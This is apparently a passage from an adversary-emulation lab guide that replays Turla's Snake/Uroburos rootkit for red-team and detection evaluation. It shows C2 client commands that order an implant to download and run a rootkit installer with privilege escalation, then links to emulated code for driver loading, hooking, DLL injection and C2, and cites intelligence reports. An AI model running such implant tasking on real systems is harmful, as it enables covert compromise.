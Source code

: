* Task the EPIC implant to download the Snake rootkit installer.

```bash
./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'name | C:\\Users\\Egle\\Desktop\\gusbsys.exe | snake.exe'
```

* Wait 1 minute after the payload is sucessfully downloaded before tasking the implant to execute the Snake rootkit installer with the privilege escalation option:

```bash
./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'exe | C:\\Users\\Egle\\Desktop\\gusbsys.exe -f'
```

* :arrow_right: Switch to your RDP session in `azuolas (10.100.40.103)` and go to your Edge window. Perform a hard refresh on the current page by pressing Ctrl+Shift+R.

:arrow_right: Return to your Kali C2 server terminal window and verify that a new implant session is beaconing back to the C2 server. 

### :moyai: Source Code

* EPIC
  * File download [DownloadFile](epic.cpp#L441-L466)
  * Execute commands [ExecCmd](epic.cpp#L47-L71)
* [Snake Installer](SnakeInstaller_README.md)
  * [Privilege Escalation](privesc.cpp#L180)
  * [Disable DSE and Load Rootkit](main.cpp#L63)
  * [Start Snake Rootkit Driver](driver.cpp#L111)
* [Snake Rootkit](Snake_README.md)
  * [Driver](driver.c#L76)
  * [Function Hooking](hooks.c#L31)
    * [Infinity Hook](libinfinityhook_README.md)
  * [Drop DLL](filesystem.cpp#L22)
  * [Trigger injection on network request](wfp.cpp#L276)
  * [Inject Usermodule DLL](inject.cpp#L30)
* [Snake Usermodule DLL](UserModule_README.md)
  * [C2 communications over HTTP](comms_http.cpp#L237)

### :microscope: Cited Intelligence

* [Report 9: Securelist/Artemon- Uroburos](https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2014/08/20082358/uroburos.pdf)
* [Report 10: BAE/Artemon- Snake](https://artemonsecurity.com/snake_whitepaper.pdf)
* [Report 11: GData- Uroburos](https://public.gdatasoftware.com/Web/Content/INT/Blog/2014/02_2014/documents/GData_Uroburos_RedPaper_EN_v1.pdf)
* [Report 12: CIRCL- TR-25](https://www.circl.lu/pub/tr-25/)
* [Report 13: GData- Kernel Protection Mitigation](https://www.gdatasoftware.com/blog/2014/03/23966-uroburos-deeper-travel-into-kernel-protection-mitigation)
* [Report 14: GData- using WinDbg](https://www.gdatasoftware.com/blog/2014/06/23953-analysis-of-uroburos-using-windbg)
* [Report 16: GData- Project Cobra](https://www.gdatasoftware.com/blog/2015/01/23926-analysis-of-project-cobra)
* [Report 17: Tetrane- Uroburos with REVEN](https://blog.tetrane.com/2019/Analysis-Uroburos-Malware-REVEN.html)
* [Report 18: Talos- Snake Campaign](https://blog.talosintelligence.com/2014/04/snake-campaign-few-words-about-uroburos.html)
* [Report 19: Lastline- Dissecting Turla Rootkit](https://www.lastline.com/labsblog/dissecting-turla-rootkit-malware-using-dynamic-analysis/)
* [Report 20: Lastline- Kernel Exploit Makeover](https://www.lastline.com/labsblog/turla-apt-group-gives-their-kernel-exploit-a-makeover/)
* [Report 27: GitHub- hfiref0x/TDL](https://github.com/hfiref0x/TDL)
* [Report 28: CoreLabs- VirtualBox Privilege Escalation](https://www.coresecurity.com/core-labs/advisories/virtualbox-privilege-escalation-vulnerability)
* [Report 29: Unit42- Acidbox](https://unit42.paloaltonetworks.com/acidbox-rare-malware/)
